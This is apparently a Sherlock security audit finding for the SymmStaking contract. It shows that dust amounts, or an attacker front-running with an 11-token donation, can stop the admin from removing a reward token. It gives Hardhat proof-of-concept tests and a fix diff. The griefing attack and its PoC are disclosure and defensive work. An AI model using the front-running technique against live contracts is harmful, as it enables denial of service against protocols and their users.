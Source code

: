Zany Onyx Bobcat

Medium

# The attacker will not allow the reward token to be removed from staking contract

### Summary

The admin can remove a token from the rewards list unless `pendingRewards[token] > 10`. However, an attacker can exploit this by depositing `11` tokens, or rounding precision may leave dust amounts, preventing token removal.


### Root Cause

The check for reward ongoing is not correct [here](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L320):
```solidity
/token/contracts/staking/SymmStaking.sol:316
316: 	function configureRewardToken(address token, bool status) external onlyRole(REWARD_MANAGER_ROLE) {
317: 		_updateRewardsStates(address(0));
318: 
319: 		if (token == address(0)) revert ZeroAddress();
320: 		if (isRewardToken[token] == status) revert TokenWhitelistStatusUnchanged(token, status);
321: 
322: 		isRewardToken[token] = status;
323: 		if (!status) {
324:@-->    if (pendingRewards[token] > 10) revert OngoingRewardPeriodForToken(token, pendingRewards[token]);
325: 			uint256 len = rewardTokens.length;
326: 			for (uint256 i = 0; i < len; i++) {
```


### Internal Pre-conditions

The `pendingRewards[token]` value  greater than 10.


### External Pre-conditions

The admin want to remove the token from reward list.


### Attack Path

This issue can occur through 3  paths:

1. A dust amount of the rewards token remains after all users claim, and the reward duration ends with `pendingRewards[token] > 10`.
2. An attacker front-runs the `configureRewardToken` call and donates `11` units of the rewards token to the staking contract via `notifyRewardAmount`.
3. As stated in the README, if no one stakes during the rewards duration, the rewards will be withdrawn and not forwarded to the next duration. In this case, all tokens with added rewards cannot be removed.


### Impact

The protocol aims to maintain a rewards token list of up to 12 tokens, and the admin has the ability to remove rewards tokens from the staking contract. However, this attack prevents the admin from removing tokens, meaning once a token is added, it cannot be removed. In the long run, this restriction will limit the protocol's ability to add new tokens. A growing rewards token list can cause a DoS on claiming rewards and impact other features like `deposit` and `withdraw`, as updating the reward states for all tokens becomes increasingly expensive.  


### PoC

Add following POCs to `symmStaking.behavior.ts` and run with command `npx hardhat test`:
```javascript
		it.only("Token can not be removed due to precision lose in reward claiming", async function () {
			const depositAmount = BigInt(2e18)
			const rewardAmount = BigInt(10e6)
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])

			
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user2).deposit(depositAmount, user2.address)
			await time.increase(8 * 24 * 60 * 60) // fast forward  the time after the end to reward duration 
			const user1BalanceBefore = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards() // user1 claimed
			const user1BalanceAfter = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user2).claimRewards() // user2 claimed
			const claimed = user1BalanceAfter - user1BalanceBefore
			let amountLeft  = await usdtToken.balanceOf(await symmStaking.getAddress());
			console.log("STaking contract balance After first duration" , amountLeft) // both the user claimed but still the contracts holds dust amount
			console.log("user1 balance After" , claimed)
			const stakingBalance = await usdtToken.balanceOf(await symmStaking.getAddress());
			expect(stakingBalance).to.be.greaterThan(10n);
			await symmStaking.connect(admin).rescueTokens(await usdtToken.getAddress() , stakingBalance , await admin.getAddress()); // even rescueTokens can not help with this
			await expect(symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), false)).to.be.revertedWithCustomError(
				symmStaking,
				"OngoingRewardPeriodForToken",
			) 
			})
		it.only("Attacker frontrun the removal transaction and donate 11 units of token", async function () {
			console.log("STaking contract balance Before" , await usdtToken.balanceOf(await symmStaking.getAddress()))
			const depositAmount = BigInt(2e18)
			const rewardAmount = BigInt(11)
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])

			
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user2).deposit(depositAmount, user2.address)
			
			await time.increase(8 * 24 * 60 * 60) // fast forward  the time after the end to reward duration 
			const user1BalanceBefore = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfter = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user2).claimRewards()
			const claimed = user1BalanceAfter - user1BalanceBefore
			let amountLeft  = await usdtToken.balanceOf(await symmStaking.getAddress());
			console.log("STaking contract balance After 2nd duration" , amountLeft)
			const stakingBalance = await usdtToken.balanceOf(await symmStaking.getAddress());
			console.log("user1 balance After" , claimed)
			expect(stakingBalance).to.equal(BigInt(11)); // the balance is equal to donated balance , so no one is able to claim it
			await symmStaking.connect(admin).rescueTokens(await usdtToken.getAddress() , stakingBalance , await admin.getAddress()); // even rescueTokens can not help with this
			await expect(symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), false)).to.be.revertedWithCustomError(
				symmStaking,
				"OngoingRewardPeriodForToken",
			)
		})

```


### Mitigation

The following fix would help to mitigate this issue Update the following check :
```diff
diff --git a/token/contracts/staking/SymmStaking.sol b/token/contracts/staking/SymmStaking.sol
index 1b7057c..f054756 100644
--- a/token/contracts/staking/SymmStaking.sol
+++ b/token/contracts/staking/SymmStaking.sol
@@ -317,7 +317,7 @@ contract SymmStaking is Initializable, AccessControlEnumerableUpgradeable, Reent
 
                isRewardToken[token] = status;
                if (!status) {
-                       if (pendingRewards[token] > 10) revert OngoingRewardPeriodForToken(token, pendingRewards[token]);
+                       if (rewardState[token].periodFinish > block.timestamp) revert OngoingRewardPeriodForToken(token, pendingRewards[token]);
                        uint256 len = rewardTokens.length;
                        for (uint256 i = 0; i < len; i++) {
                                if (rewardTokens[i] == token) {
```

or can also be fixed if we update the `pendingRewards[token]` state when `rescueTokens` is called.
